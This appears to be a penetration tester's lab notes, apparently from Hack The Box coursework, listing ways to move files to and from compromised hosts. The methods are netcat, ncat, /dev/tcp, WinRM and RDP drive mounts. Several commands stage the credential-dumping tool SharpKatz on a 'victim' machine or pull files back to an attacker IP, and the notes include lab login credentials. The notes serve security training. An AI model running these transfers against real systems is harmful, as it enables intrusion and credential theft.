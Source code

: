 #### NetCat File Download

RHOST:
```shell-session
victim@target:~$ nc -l -p 8000 > SharpKatz.exe
```

LHOST:
```shell-session
Tachipy@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
Tachipy@htb[/htb]$ # Example using Original Netcat
Tachipy@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

#### NetCat File  Send 

LHOST:
```shell-session
Tachipy@htb[/htb]$ # Example using Ncat
Tachipy@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```
RHOST:
```shell-session
victim@target:~$ # Example using Ncat
victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

#### Dev TCP Receive
LHOST:
```shell-session
Tachipy@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```
RHOST:
```shell-session
victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

#### WinRM File Transfer
Check if port is open:
```powershell-session
Test-NetConnection -ComputerName DATABASE01 -Port 5985
```
create session:
```powershell-session
$Session = New-PSSession -ComputerName DATABASE01
```
Copy to victim:
```powershell-session
Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```
Copy From victim:
```powershell-session
Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```
#### Mounting a Linux Folder Using xfreerdp

  Mounting a Linux Folder Using xfreerdp

```shell-session
Tachipy@htb[/htb]$ xfreerdp /v:10.129.205.118 /d:rdp /u:htb-student /p:'HTB_@cademy_stdnt!' /drive:linux,/home/htb-ac-711424/http
```
#### Mounting a Linux Folder Using (RDP)rdesktop

  Mounting a Linux Folder Using rdesktop

```shell-session
Tachipy@htb[/htb]$ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

